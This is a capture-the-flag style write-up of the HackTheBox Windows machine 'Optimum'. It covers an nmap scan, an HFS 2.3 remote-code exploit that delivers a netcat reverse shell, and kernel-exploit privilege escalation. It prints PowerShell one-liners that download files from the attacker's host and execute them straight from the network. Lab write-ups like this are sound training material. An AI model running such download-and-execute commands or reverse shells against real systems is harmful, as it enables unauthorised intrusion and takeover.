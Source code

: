 ```yaml
---
title: "Optimum from HackTheBox"
author: ferbot
date: 2020-01-01 12:00:00 +0800
categories: [htb, windows, optimum]
tags: [htb, windows, metasploit, hfs, powershell]
description: Easy Windows box from HTB about simple exploitation
---
```


### HTB: Optimum

I have always thought Windows machines are harder than linux, at least when refering to privilege escalation. User shell was pretty straight forward as there was only one port and only one external service running. I was lucky as Windows privesc tends to be more difficult and got root as second try.

### Initial foothold

An intense nmap scan to get a first hint on the machine.

```bash
nmap -Pn -p- -sV --max-retries=1 --min-rate=1000 10.10.10.8
Starting Nmap 7.80 ( https://nmap.org ) at 2020-01-01 11:38 EST
Nmap scan report for 10.10.10.8
Host is up (0.16s latency).
Not shown: 65534 filtered ports
PORT   STATE SERVICE VERSION
80/tcp open  http    HttpFileServer httpd 2.3
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/.
Nmap done: 1 IP address (1 host up) scanned in 139.75 seconds
```

Just one port, huh. At least there's just one way in so all of our effort will go into that one single port.

### Enumeration

By visiting web site, we identify HttpFileServer (version 2.3) is running on port 80; confirming what nmap result told us.

![placeholder](/assets/img/htb/optimum/1.png "HFS")
![placeholder](/assets/img/htb/optimum/2.png "HFS")

We got a service name and version, time to look for any exploit or vulnerabilities.

![placeholder](/assets/img/htb/optimum/3.png "searchsploit")

We spot a python [exploit](https://www.exploit-db.com/exploits/39161) in the searchsploit results. We then go and take a look to see how to exploit the vulnerable service.

![placeholder](/assets/img/htb/optimum/4.png "exploit")

### Exploitation

Here's a brief explanation of how the exploit works: HFS allows us to upload files directly to the windows file system; in this case anonymously because there's no authentication. The exploit creates a vbs script inside the machine that goes and download netcat from our machine (in order to do that we must create a web server) and deliver a reverse shell back to us.

In order to achieve this we set up a simple HTTP server on python with netcat on its root.

![placeholder](/assets/img/htb/optimum/5.png "http.server")

We setup local IP and listening port.

![placeholder](/assets/img/htb/optimum/6.png "Reverse shell data")

We start our listener and execute our modified script.

![placeholder](/assets/img/htb/optimum/7.png "reverse shell!")

Nice! We get low-privs command execution!

### Privilege Escalation

There are plenty methods to check for misconfigurations in order to escalate privileges. I always start with some kernel exploits (most common among CTFs). I recommend to you the windows exploit suggester [repo](https://github.com/AonCyberLabs/Windows-Exploit-Suggester) as an initial step.

The exploit suggester can take as input the systeminfo command output.

![placeholder](/assets/img/htb/optimum/8.png "systeminfo")

![placeholder](/assets/img/htb/optimum/9.png "exploit-suggester")

We try first privilege escalation [exploit](https://www.exploit-db.com/exploits/41015) on the list.

![placeholder](/assets/img/htb/optimum/11.png "CVE-2016-7255")

That first try did not work, but we don't stop there. So let's try the [next one](https://www.exploit-db.com/exploits/41020).

![placeholder](/assets/img/htb/optimum/10.png "exploit-suggester")

To download files we use some powershell oneliners.
This allows us to read some external powershell file and immediately execute without downloading it.
```cmd
powershell IEX (New-Object Net.WebClient).DownloadString('http://10.10.14.32/hval.ps1')
```

This one downloads the file directly to the path of choice.
```cmd
powershell -NoProfile -ExecutionPolicy unrestricted -Command (new-object System.Net.WebClient).Downloadfile('http://10.10.14.32/exploit.exe', 'C:\Users\kostas\Downloads\exploit.exe')
```

![placeholder](/assets/img/htb/optimum/12.png "rooted!")

We are able to escalate our privileges.

### Thank you

As we, you the reader and I the writer, advance deeper into these HTB boxes I will continue to learn and add enumeration and exploit methods. I'm not the best but I try harder almost every day to be better and improve myself into hacking.
Any feedback is welcomed. As always thank you for reading!
